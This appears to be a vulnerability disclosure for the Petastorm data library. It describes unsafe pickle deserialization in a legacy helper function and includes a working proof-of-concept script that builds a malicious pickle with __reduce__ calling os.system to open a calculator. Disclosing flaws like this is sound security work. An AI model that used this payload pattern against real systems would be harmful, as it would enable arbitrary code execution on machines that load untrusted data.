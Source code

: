 # Description
Petastorm is an open source data access library developed at Uber ATG. This library enables single machine or distributed training and evaluation of deep learning models directly from datasets in Apache Parquet format. Petastorm supports popular Python-based machine learning (ML) frameworks such as Tensorflow, PyTorch, and PySpark. It can also be used from pure Python code.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```python
import os
import pickle
#os.system('pip3 install petastorm')
from petastorm.etl import legacy
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#Exploiting
dumps = pickle.dumps(ArbitraryCode())
legacy.depickle_legacy_package_name_compatible(dumps)
```
* `pip3 install petastorm`
* `python3 exploit.py`
